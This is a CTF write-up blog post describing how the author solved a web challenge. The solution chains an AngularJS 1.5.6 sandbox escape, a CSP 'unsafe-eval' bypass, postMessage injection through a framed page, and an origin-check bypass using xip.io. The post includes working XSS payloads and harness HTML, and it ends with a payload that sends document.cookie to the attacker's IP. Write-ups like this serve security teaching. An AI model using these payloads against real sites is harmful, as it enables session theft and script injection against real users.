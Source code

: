 ```yaml
---
title: STF [You shall not pass!]
author: Jason Chua (Coldspot)
date: 2020-12-08 00:00:51 +0800
categories: [CTF, STF]
tags: [sandbox, tech, angular, xss]
toc: true
comments: true
---
```


*3 SOLVES*

*DESCRIPTION*


We discovered a web portal used by COViD as a C2 platform to send messages to his ransomware victims. They have a script that accesses and hacks the websites posted back to the server! Can you stop them?

<!--more-->

# Initial Testing
Accessing the web site at [http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41011/](http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41011/) will lead us to a simple page shown below.

![upload-image](/assets/img/blog/STF-You-shall-not-pass!/1.png)

Attempting to broadcast a message will pop up a jQuery-based on-screen-keyboard which can be found at [github](https://github.com/chriscook/on-screen-keyboard) 
![upload-image](/assets/img/blog/STF-You-shall-not-pass!/2.png)
![upload-image](/assets/img/blog/STF-You-shall-not-pass!/3.png)

Broadcasting a message will display the broadcasted text in the embedded iframe which leads to `/broadcasts`.  
![upload-image](/assets/img/blog/STF-You-shall-not-pass!/4.png)

Entering a URL into the text box for  `Add new website to hack!` will result in the server sending a GET request to the specified URL.

![upload-image](/assets/img/blog/STF-You-shall-not-pass!/5.png)
![upload-image](/assets/img/blog/STF-You-shall-not-pass!/6.png)

2 other script tag can be found. `script.js` leads to a `404 Not Found` and a copy of Angular v1.5.6 is included.
![upload-image](/assets/img/blog/STF-You-shall-not-pass!/7.png)

`/broadcasts` contains a JavaScript file called `frame.js` which will be critical in developing of the exploit.
![upload-image](/assets/img/blog/STF-You-shall-not-pass!/8.png)

Iframes to the website can also be included in a web server on a different domain indicated by the lack of an `X-Frame-Options` header

![upload-image](/assets/img/blog/STF-You-shall-not-pass!/9.png)

# Discovering and planning of exploit

Attempting to inject JavaScript `<img/src/onerror=alert()>` in the broadcast field will result in `Refused to execute inline event handler because it violates the following Content Security Policy directive: "script-src 'unsafe-eval' 'self'". Either the 'unsafe-inline' keyword, a hash ('sha256-...'), or a nonce ('nonce-...') is required to enable inline execution.` in the console log.  

The key-points derived from the error is that the `unsafe-eval` in `script-src` directive is set to `self` which only allows the use of `eval()` in the same origin as the target site.

The initial plan of action is to post arbitrary JavaScript on `/broadcasts` page and enter the link of `/broadcasts` in the `Add new website to hack!` form. However, one issue is that the XSS is not stored. As such, having the server attempt a GET request on `/broadcasts` page will not execute said JavaScript. 

![upload-image](/assets/img/blog/STF-You-shall-not-pass!/10.png)

A solution to the above problem will be having the target server attempt a GET request to a web server that we own. Our web server will then include an iframe to the `/broadcasts` target URL and attempt to run the `postMessage()` function to send our payload to the `/broadcasts` endpoint which has a `receiveMessage()` function.

The payload should consist an iframe which contains a script tag that loads the angular script as well as a completed angular sandbox escape as well as CSP-bypassed code which runs arbitrary JavaScript, which had not been completed at this stage.

![upload-image](/assets/img/blog/STF-You-shall-not-pass!/11.png)

After a long time searching (and missing the obvious payload), I decided on a payload shown in a GitHub repository [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md). 

```javascript
{{
    a=toString().constructor.prototype;a.charAt=a.trim;
    $eval('a,eval(`var _=document.createElement(\'script\');_.src=\'//localhost/m\';document.body.appendChild(_);`),a')
}}
```

This payload is ideal as it consists of the least number of bad characters as predetermined by `/broadcasts/frame.js`.

The adapted payload will have the script construct a string by reading in decimal values and converting it to ASCII from its ordinal value.

```javascript
a=toString().constructor.prototype;a.charAt=a.trim;$eval(toString().constructor.fromCharCode(97,44,97,108,101,114,116,40,34,67,79,76,68,83,80,79,84,34,41,44,97))
```

To test the script locally, download the vulnerable Angular source code from the challenge website and place it in a `javascripts` folder. Next, create an `index.html` page in the root folder
```html
<html>
  <iframe id="xss"></iframe>
</html>

<script>
  setTimeout(function(){
    const frame = document.createElement('iframe')
    const inject = document.getElementById("xss")
    frame.srcdoc = `<script/src=/javascripts/angular.min.js><\/script><div/ng-app>{{a=toString().constructor.prototype;a.charAt=a.trim;$eval(toString().constructor.fromCharCode(97,44,97,108,101,114,116,40,34,67,79,76,68,83,80,79,84,34,41,44,97))}}</div>`
    document.body.innerHTML = frame.outerHTML.replace(" ", "/")

    inject.src = "http://localhost"
  },
  1000)
</script>
```
The result should be something like this:


![upload-image](/assets/img/blog/STF-You-shall-not-pass!/12.png)

Assuming you have [python](https://www.python.org/) installed, run the following command in the root directory in a command prompt and open up `http://localhost` on a web browser

Python 3+
```bash
python -m http.server 80
```
Python 2+
```
python -m SimpleHTTPServer 80
```

The following picture should be the outcome:
![upload-image](/assets/img/blog/STF-You-shall-not-pass!/13.png)

To make sure the exploit works for the server, add an `onload` function to inject to run `postMessage(frame.outerHTML)` and change inject.src to ` http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41011/broadcasts`. 

```html
<html>
	<iframe id="xss"></iframe>
</html>

<script>
	
	const frame = document.createElement('iframe')
	const inject = document.getElementById("xss")
	frame.srcdoc = `<script/src=/javascripts/angular.min.js><\/script><div/ng-app>{{a=toString().constructor.prototype;a.charAt=a.trim;$eval(toString().constructor.fromCharCode(97,44,97,108,101,114,116,40,34,67,79,76,68,83,80,79,84,34,41,44,97))}}</div>`

	inject.onload = _ => {
		inject.contentWindow.postMessage(frame.outerHTML, "*")
	}

	inject.src = "http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41011/broadcasts"

</script>
```

Hosting it locally and accessing it, you will realize that the page still did not work. No JavaScript alert ☹
![upload-image](/assets/img/blog/STF-You-shall-not-pass!/14.png)

There are 2 main reasons why this script did not work. First, the payload that was sent to the server contains blacklisted characters, and second, the URL did not pass the origin check on the server.

# Fixing of exploit

To fix the first issue of our payload having blacklisted character(s), we must first identify where did the blacklisted character(s) appear. We can first check the payload that was sent with the `postMessage()` function, which was `frame.outerHTML`.

![upload-image](/assets/img/blog/STF-You-shall-not-pass!/15.png)

As we can see, the payload contained a <space> character after iframe which was blocked in `/broadcasts/frame.js`. To circumvent this, I used a `.replace(“ “, “/”)` for the outerHTML.

The second problem lies with the origin check. Recall that in `/broadcasts/frame.js`, there is a check for the `event.origin`

![upload-image](/assets/img/blog/STF-You-shall-not-pass!/16.png)

This Regular Expression check if `event.origin` begins with  `yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg` and will return if the check fails. As such, we need a DNS to point to our server, starting with `yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg`. (xip)[http://xip.io/] provide a free domain name that points to any IP address. The domain name we will use is ` yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg.<IPADDRESS>.xip.io`. 

# Finishing up

Finally, the payload will be changed from `a, alert(“COLDSPOT”),a` to `a,document.location = "http://<IPADDRESS>/" + document.cookie,a`. Finally, port forward and retrieve your IP address and replace <IPADDRESS> with your own IP address.

Entering `yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg.<IPADDRESS>.xip.io` into `Add new website to hack` form will cause the server to request a URL on our local server with the flag as the filename. 

![upload-image](/assets/img/blog/STF-You-shall-not-pass!/17.png)

# Thoughts

On the CTF day itself, I did not want to mess with port forwarding as many ports from my device were open and vulnerable. As such, I used a $5/month droplet on DigitalOcean and my own domain name `coldspot.me`. 

The grand total for the server cost can be seen in the picture below:
![upload-image](/assets/img/blog/STF-You-shall-not-pass!/18.png)


More info 
>> Ask me on Discord @Coldspot#7033
